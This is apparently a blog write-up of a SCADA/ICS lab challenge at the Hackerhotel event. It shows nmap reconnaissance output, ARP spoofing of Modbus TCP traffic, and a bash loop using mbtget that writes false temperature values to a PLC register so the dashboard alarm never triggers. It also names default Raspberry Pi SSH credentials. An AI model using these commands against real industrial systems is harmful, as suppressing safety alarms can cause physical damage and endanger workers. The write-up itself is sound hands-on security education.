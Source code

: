 ```yaml
---
name: Secura SCADA/ICS challenge
date: 2020-02-29
header: 
  teaser: /assets/img/EQ01e4XXkAM7okx.jpg
---
```


A few weeks ago, I went to the hacking event [Hackerhotel](https://hackerhotel.nl/), and I saw this tweet ([https://twitter.com/djrevmoon/status/1227126257676058624](https://twitter.com/djrevmoon/status/1227126257676058624)) about an interactive SCADA setup with a challenge that would be available during the event. I successfully played the challenge and this is my write-up about it. I should point out that I never used ICS/SCADA systems before doing this challenge.

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">If you are at <a href="https://twitter.com/HotelHacker?ref_src=twsrc%5Etfw">@HotelHacker</a> and want to learn more about SCADA/ICS security, drop by at the <a href="https://twitter.com/SecuraBV?ref_src=twsrc%5Etfw">@SecuraBV</a> guys and girls. We will bring an interactive setup that allows you to hack PLC&#39;s, MitM Modbus etc. without risking setting fire to anything.</p>&mdash; I d໐ຖ&#39;t t3¢hຖ໐ f໐r คຖ คຖŞຟ3r (@djrevmoon) <a href="https://twitter.com/djrevmoon/status/1227126257676058624?ref_src=twsrc%5Etfw">February 11, 2020</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

### Setup

The setup consisted of a wooden board to which devices, including a PLC, dashboard, switch, Raspberry Pi and a temperature sensor, were mounted. All devices except for the temperature sensor, which was connected to the Raspberry Pi with USB, were connected to the switch with ethernet cables.

![image-20200229204808487]({{site.url}}/assets/img/image-20200229204808487.png)

The temperature sensor measures the temperature and sends the results to the Raspberry Pi which then sends the temperature results to the PLC, using the [Modbus TCP](https://en.wikipedia.org/wiki/Modbus) protocol, after which the dashboard pulls the temperature results from the PLC. If the temperature is above a certain degrees Celius the dashboard will trigger an alarm which is meant to alarm the factory employees that the temperature is too high.

The goal of the challenge was to adjust the temperature data on the dashboard without triggering the alarm. Normally this setup would be way bigger, in a uranium enrichment facility for example where it would be catastrophic that data are given to the dashboard, and thus displayed to the employees, is incorrect. An example of a big hack involving SCADA systems is [Stuxnet](https://www.wired.com/2014/11/countdown-to-zero-day-stuxnet/).

### Network

I connected to the switch with the static IP-address 192.168.1.221 and executed a port scan on the network:
```bash
nmap -sV -p- -A -oN scan 192.168.1.0/24

# Switch
Nmap scan report for 192.168.1.1
PORT   STATE SERVICE VERSION
22/tcp open  ssh     Dropbear sshd 0.52 (protocol 2.0)
80/tcp open  http    Apache httpd 2.01 ((Linux) mod_ssl/2.9.6 OpenSSL/1.0.2m)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# PLC
Nmap scan report for 192.168.1.101
PORT      STATE SERVICE       VERSION
502/tcp   open  mbap?
44818/tcp open  EtherNet-IP-2
| enip-info:
|   type: Programmable Logic Controller (14)
|   vendor: Rockwell Automation/Allen-Bradley (1)
|   productName: 2080-LC50-24QBB
|   serialNumber: 0x60d182bb
|   productCode: 139
|   revision: 12.11
|   status: 0x0034
|   state: 0x03
|_  deviceIp: 192.168.1.101

# Dashboard
Nmap scan report for 192.168.1.103
PORT      STATE SERVICE       VERSION
502/tcp   open  mbap?
5900/tcp  open  vnc           VNC (protocol 3.8)
| vnc-info:
|   Protocol version: 3.8
|   Security types:
|     VNC Authentication (2)
|     Tight (16)
|   Tight auth subtypes:
|_    STDV VNCAUTH_ (2)
44818/tcp open  EtherNet-IP-2
| enip-info:
|   type: Human-Machine Interface (24)
|   vendor: Rockwell Automation/Allen-Bradley (1)
|   productName: 2711R-T4T/B
|   serialNumber: 0x6000687a
|   productCode: 148
|   revision: 5.12
|   status: 0x0034
|   state: 0x02
|_  deviceIp: 192.168.1.103

# Raspberry Pi
Nmap scan report for 192.168.1.104
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Raspbian 10+deb9u3 (protocol 2.0)
| ssh-hostkey:
|   2048 4a:92:cf:14:2d:84:26:5c:d4:ad:18:ce:0c:29:55:c8 (RSA)
|   256 6d:a4:1a:cd:4d:e5:ec:91:8a:03:2a:16:cb:ae:0d:82 (ECDSA)
|_  256 9e:d9:28:6c:16:58:fe:72:d0:48:e2:a8:e7:b2:8a:81 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

To better understand the Modbus TCP protocol I used `arpspoof` to spoof between the Raspberry Pi, the PLC and the dashboard. This could be easier done by logging in to the Switch (192.168.1.1) and enabling port mirroring.

The following packet was intercepted by ARP spoofing between the Raspberry Pi and the PLC:

![image-20200229212345199]({{site.url}}/assets/img/image-20200229212345199.png)

The Modbus TCP packet writes data to a single register with reference number 1 and the data `41b4` in decimal `16820`.

The following packet was intercepted by ARP spoofing between the dashboard and the PLC:

![image-20200229214151383]({{site.url}}/assets/img/image-20200229214151383.png)

The Modbus TCP packet sends a response of all registers of the PLC to the dashboard, but register 1 is used by the dashboard to determine the temperature.

Now I have all the data to execute an attack and fool the dashboard.

### Attack method

With the program [mbtget](https://github.com/sourceperl/mbtget) I could send a Modbus TCP packet over ethernet. The following script sends the value `16000` to register `1` on the PLC in a while loop. I cannot remember which value I used in the script, but I thought it was around 16000.

```bash
kali@kali:~$ cat loop.sh
#!/bin/bash

while true
do
mbtget -w6 16000 -a 1 192.168.1.101
done
kali@kali:~$ ./loop.sh
word write ok
[...]
```

While executing the script the dashboard showed a fake temperature of around 15 degrees Celius while the actual temperature was much higher. I also wanted to arpsoof the Raspberry Pi during the attack preventing it from sending data to the PLC while I was at the same time sending data to the PLC, but I didn’t have enough time because another talk started at Hackerhotel.

This attack could be easier done by just logging in to the Raspberry Pi with the standard credentials `pi:raspberry` over SSH and adjusting the code that sends the temperature to the PLC. But that isn't fun and I wanted to learn more about Modbus TCP.  In conclusion, it was a fun challenge because I learned more about ICS/SCADA systems.

<blockquote class="twitter-tweet"><p lang="en" dir="ltr">Playing with SCADA <a href="https://twitter.com/HotelHacker?ref_src=twsrc%5Etfw">@HotelHacker</a> <a href="https://t.co/lME5olzoIT">pic.twitter.com/lME5olzoIT</a></p>&mdash; Zawadi Done (@ZawadiDone) <a href="https://twitter.com/ZawadiDone/status/1228697086985691136?ref_src=twsrc%5Etfw">February 15, 2020</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>
